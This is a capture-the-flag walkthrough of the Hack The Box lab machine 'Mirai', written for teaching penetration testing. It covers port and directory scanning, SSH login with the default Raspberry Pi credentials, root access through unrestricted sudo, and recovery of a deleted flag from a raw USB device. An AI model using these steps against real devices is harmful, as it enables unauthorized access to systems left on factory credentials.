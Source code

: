 # HTB - Mirai

#### Ip: 10.10.10.48
#### Name: Mirai
#### Difficulty: Easy

----------------------------------------------------------------------

Mirai.png

### Enumeration

I'll kick off enumerating this box with an Nmap scan covering all TCP ports. Here I'll also use the `-sC` and `-sV` flags to use basic scripts and to enumerate versions:

```text
┌──(ryan㉿kali)-[~/HTB/Mirai]
└─$ sudo nmap -p-  --min-rate 10000 10.10.10.48 -sC -sV   
[sudo] password for ryan: 
Starting Nmap 7.93 ( https://nmap.org ) at 2023-09-22 14:52 CDT
Nmap scan report for 10.10.10.48
Host is up (0.087s latency).
Not shown: 65529 closed tcp ports (reset)
PORT      STATE SERVICE VERSION
22/tcp    open  ssh     OpenSSH 6.7p1 Debian 5+deb8u3 (protocol 2.0)
| ssh-hostkey: 
|   1024 aaef5ce08e86978247ff4ae5401890c5 (DSA)
|   2048 e8c19dc543abfe61233bd7e4af9b7418 (RSA)
|   256 b6a07838d0c810948b44b2eaa017422b (ECDSA)
|_  256 4d6840f720c4e552807a4438b8a2a752 (ED25519)
53/tcp    open  domain  dnsmasq 2.76
| dns-nsid: 
|_  bind.version: dnsmasq-2.76
80/tcp    open  http    lighttpd 1.4.35
|_http-title: Site doesn't have a title (text/html; charset=UTF-8).
|_http-server-header: lighttpd/1.4.35
1124/tcp  open  upnp    Platinum UPnP 1.0.5.13 (UPnP/1.0 DLNADOC/1.50)
32400/tcp open  http    Plex Media Server httpd
| http-auth: 
| HTTP/1.1 401 Unauthorized\x0D
|_  Server returned status 401 but no WWW-Authenticate header.
|_http-title: Unauthorized
|_http-favicon: Plex
|_http-cors: HEAD GET POST PUT DELETE OPTIONS
32469/tcp open  upnp    Platinum UPnP 1.0.5.13 (UPnP/1.0 DLNADOC/1.50)
Service Info: OS: Linux; CPE: cpe:/o:linux:linux_kernel

Service detection performed. Please report any incorrect results at https://nmap.org/submit/ .
Nmap done: 1 IP address (1 host up) scanned in 27.28 seconds
```

For HTTP we have a blank page on port 80, and a Plex server sign in page on port 32400

plex.png

Running a directory scan against the site on port 80 we find an `/admin` page:

ferox.png

And heading to the site shows a pi-hole page, which is essentialy a DNS sinkhole built in a Raspberry Pi.

admin.png

### Exploitation

Because we know that SSH is running, lets try the default Raspberry Pi credentials of pi:raspberry to SSH into the box:

```text
┌──(ryan㉿kali)-[~/HTB/Mirai]
└─$ ssh pi@10.10.10.48                                 
The authenticity of host '10.10.10.48 (10.10.10.48)' can't be established.
ED25519 key fingerprint is SHA256:TL7joF/Kz3rDLVFgQ1qkyXTnVQBTYrV44Y2oXyjOa60.
This key is not known by any other names.
Are you sure you want to continue connecting (yes/no/[fingerprint])? yes
Warning: Permanently added '10.10.10.48' (ED25519) to the list of known hosts.
pi@10.10.10.48's password: 

The programs included with the Debian GNU/Linux system are free software;
the exact distribution terms for each program are described in the
individual files in /usr/share/doc/*/copyright.

Debian GNU/Linux comes with ABSOLUTELY NO WARRANTY, to the extent
permitted by applicable law.
Last login: Sun Aug 27 14:47:50 2017 from localhost

SSH is enabled and the default password for the 'pi' user has not been changed.
This is a security risk - please login as the 'pi' user and type 'passwd' to set a new password.


SSH is enabled and the default password for the 'pi' user has not been changed.
This is a security risk - please login as the 'pi' user and type 'passwd' to set a new password.

pi@raspberrypi:~ $ whoami && hostname
pi
raspberrypi
```

Nice, that worked!

We can now grab the user.txt flag:

user_flag.png

### Privilege Escalation

Running `sudo -l` to see what we can run with elevated permissions, we find we can run anything we want:

```text
pi@raspberrypi:~/Desktop $ sudo -l
Matching Defaults entries for pi on localhost:
    env_reset, mail_badpass, secure_path=/usr/local/sbin\:/usr/local/bin\:/usr/sbin\:/usr/bin\:/sbin\:/bin

User pi may run the following commands on localhost:
    (ALL : ALL) ALL
    (ALL) NOPASSWD: ALL
```

Lets go ahead and run `sudo /bin/bash` to escalate our shell:

```text
pi@raspberrypi:~/Desktop $ sudo /bin/bash
root@raspberrypi:/home/pi/Desktop# whoami
root
root@raspberrypi:/home/pi/Desktop# id
uid=0(root) gid=0(root) groups=0(root)
```

Trying to grab the root flag however, we find a note:

```text
root@raspberrypi:/home/pi/Desktop# cd /root
root@raspberrypi:~# ls
root.txt
root@raspberrypi:~# cat root.txt
I lost my original root.txt! I think I may have a backup on my USB stick...
```

Usb materials are frequently stored in `/media` so lets check there:

```text
root@raspberrypi:~# cd /media
root@raspberrypi:/media# ls
usbstick
root@raspberrypi:/media# cd usbstick
root@raspberrypi:/media/usbstick# ls -la
total 18
drwxr-xr-x 3 root root  1024 Aug 14  2017 .
drwxr-xr-x 3 root root  4096 Aug 14  2017 ..
-rw-r--r-- 1 root root   129 Aug 14  2017 damnit.txt
drwx------ 2 root root 12288 Aug 14  2017 lost+found
root@raspberrypi:/media/usbstick# cat damnit.txt 
Damnit! Sorry man I accidentally deleted your files off the USB stick.
Do you know if there is any way to get them back?

-James
```

Hmmm, lets see if anything is mounted:

mount.png

Interesting, this points us to `/dev/sdb`

And running `strings` against the file reveals the root.txt flag:

strings.png

Thanks for following along!

-Ryan

-----------------------------------------------------------------



